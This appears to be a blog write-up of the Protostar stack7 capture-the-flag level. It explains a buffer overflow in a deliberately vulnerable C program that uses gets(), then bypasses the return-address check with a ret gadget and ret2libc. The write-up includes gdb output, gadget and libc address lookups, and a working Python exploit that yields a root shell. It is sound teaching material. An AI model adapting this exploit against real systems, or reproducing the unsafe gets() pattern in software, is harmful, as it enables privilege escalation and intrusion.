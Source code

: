 ```yaml
---
title: Protostar Writeup - stack7
updated: 2018-10-14 16:30
---
```


## Protostar - stack7

Let's move on to the next level of Protostar. This is similar to the previous challenge.
Let's take a look at he code and see what differences are present.

```c

#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

char *getpath()
{
	char buffer[64];
	unsigned int ret;

	printf("input path please: "); fflush(stdout);

	gets(buffer);

	ret = __builtin_return_address(0);

	if((ret & 0xb0000000) == 0xb0000000) {
		printf("bzzzt (%p)\n", ret);
		_exit(1);
	}

	printf("got path %s\n", buffer);
	return strdup(buffer);
}

int main(int argc, char **argv)
{
	getpath();
}
```

So same stuff, but a different restriction on the return address... interesting. Let's take a look at what the address points to.

```sh
(gdb) break main
Breakpoint 1 at 0x804854b: file stack7/stack7.c, line 28.
(gdb) r
Starting program: /opt/protostar/bin/stack7 

Breakpoint 1, main (argc=1, argv=0xbffff864) at stack7/stack7.c:28
28      stack7/stack7.c: No such file or directory.
        in stack7/stack7.c
(gdb) info proc map
process 5409
cmdline = '/opt/protostar/bin/stack7'
cwd = '/opt/protostar/bin'
exe = '/opt/protostar/bin/stack7'
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000          0        /opt/protostar/bin/stack7
         0x8049000  0x804a000     0x1000          0        /opt/protostar/bin/stack7
        0xb7e96000 0xb7e97000     0x1000          0        
        0xb7e97000 0xb7fd5000   0x13e000          0         /lib/libc-2.11.2.so
        0xb7fd5000 0xb7fd6000     0x1000   0x13e000         /lib/libc-2.11.2.so
        0xb7fd6000 0xb7fd8000     0x2000   0x13e000         /lib/libc-2.11.2.so
        0xb7fd8000 0xb7fd9000     0x1000   0x140000         /lib/libc-2.11.2.so
        0xb7fd9000 0xb7fdc000     0x3000          0        
        0xb7fe0000 0xb7fe2000     0x2000          0        
        0xb7fe2000 0xb7fe3000     0x1000          0           [vdso]
        0xb7fe3000 0xb7ffe000    0x1b000          0         /lib/ld-2.11.2.so
        0xb7ffe000 0xb7fff000     0x1000    0x1a000         /lib/ld-2.11.2.so
        0xb7fff000 0xb8000000     0x1000    0x1b000         /lib/ld-2.11.2.so
        0xbffeb000 0xc0000000    0x15000          0           [stack]
```

As we can see from the map above, we're restricted from returning to libc. This is apparent from the `0xb00000000` check in the C code.
So how can we counter this? After digging a bit, I came across ret2code. Basically you make use of addresses of the binary itself.
From the map above it's clear that we can do so. But what do we do? That is the question. From the previous write up we know that we can
fake a stack frame and gain a root shell. Can we do that here somehow?

It is possible only if we can evade the check. If we do evade the check we can then reuse our ret2libc attack. Makes sense.
One way could be to immediately return from the function to completely avoid the check. This seems like a viable strategy.
There are many such ROP chains(of instructions) which can be used to craft our exploits. These instructions are also known as
ROP gadgets(pretty cool eh?).

Here's what a standard calling convention looks like taken from [here](https://en.wikipedia.org/wiki/X86_calling_conventions#Caller_clean-up).:

```nasm
caller:
        ; make new call frame (some compilers may produce an 'enter' instruction instead)
        push    ebp       ; save old call frame
        mov     ebp, esp  ; initialize new call frame
        ; push call arguments, in reverse (some compilers may subtract the required space from the
        ; stack pointer, then write each argument directly, see below. The 'enter' instruction can also do something similar)
        ; sub esp, 12 ; 'enter' instruction could do this for us
        ; mov [ebp-4], 3 ; or mov [esp+8], 3
        ; mov [ebp-8], 2  ; or mov [esp+4], 2
        ; mov [ebp-12], 1  ; or mov [esp], 1
        push    3
        push    2
        push    1
        call    callee    ; call subroutine 'callee'
        add     eax, 5    ; modify subroutine result (eax is the return value of our callee,
                          ; so we don't have to move it into a local variable)
        ; restore old call frame (some compilers may produce a 'leave' instruction instead)
        ; add   esp, 12   ; remove arguments from frame, ebp - esp = 12.
                          ; compilers will usually produce the following instead, which is just as fast,
                          ; and, unlike the add instruction, also works for variable length arguments
                          ; and variable length arrays allocated on the stack.
        mov     esp, ebp  ; most calling conventions dictate ebp be callee-saved,
                          ; i.e. it's preserved after calling the callee.
                          ; it therefore still points to the start of our stack frame.
                          ; we do need to make sure callee doesn't modify (or restores) ebp, though,
                          ; so we need to make sure it uses a calling convention which does this
        pop     ebp       ; restore old call frame
        ret               ; return
```

The instructions we're particularly interested in are the `pop x` and `ret` at the end of the above section.
Using those two instructions we can exit from a fucntion. Thinking of it we don't even need the `pop x`.
This simplifies our task. If we did have to use `pop` to restore the previous stack frame(which is not required in this case).
That's why a `ret` is sufficient.

Let's get started, first let's find the IP offset. Using our trustworthy pattern...

```python
>>> cyclic_metasploit(128)
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa...0Ab1Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae
```

```sh
(gdb) r
Starting program: /opt/protostar/bin/stack7 
input path please: Aa0Aa1Aa2Aa3...Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae
got path Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7A...Ad6Ad7Ad8Ad9Ae0Ae1Ae

Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
```

```python
>>> cyclic_metasploit_find(0x37634136)
80
```

So we know our padding is 80 bytes. Now lets get the address of ret from the binary...

```sh
$ objdump -D stack7 | grep ret
 8048383:       c3                      ret    
 8048494:       c3                      ret    
 ...
 80485f9:       c3                      ret    
 8048617:       c3                      ret    
```

Let's make use of the first address. Now we need the base address of libc which we have from the above proc map.
So that's at `0xb7e97000`. Now let's get the addresses of system and exit.

```sh
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7ecffb0 <__libc_system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xb7ec60c0 <*__GI_exit>
```

Notice how the functions are at within the restricted addresses. But this doesn't matter since we're avoiding the check.
That's why our ret2libc attack works again. One final thing we require is the shell string, which we can get the same way we did last time.

```sh
$ strings -a -t x /lib/libc-2.11.2.so
 11f3bf /bin/sh
```

Keep in mind that this is the offset and not the location of the shell string, we'll have to add this offset to libc's address to get the actual
address. Using all this, let's craft our exploit.

```python
import struct

padding = 'A' * 80

ret_addr = struct.pack("I", 0x8048383)
libc_start_addr = 0xb7e97000
shell_string_offset = 0x11f3bf
shell_string_addr = struct.pack("I", libc_start_addr + shell_string_offset)
system_addr = struct.pack("I", 0xb7ecffb0)
exit_addr = struct.pack("I", 0xb7ec60c0)

def go():
    payload = padding
    payload += ret_addr
    payload += system_addr
    payload += exit_addr
    payload += shell_string_addr
    print payload

go()
```

A quick and diry exploit, nothing fancy. Let's run it...

```sh
$ (python /tmp/exploit7.py; cat) | ./stack7
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA...
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
whoami
root
```

Easy peasy. Those are all of the stack exploits. If you've come so far, then good job, you now have basic understanding of why bufferoverflows are bad.
A word of caution...these techniques dont work anymore...at least not this easily. You have protections like DEP and ASLR which are put in place to prevent these kinds of attacks.

P.S.: If you like this blog please do feel free to share it with your friends :).

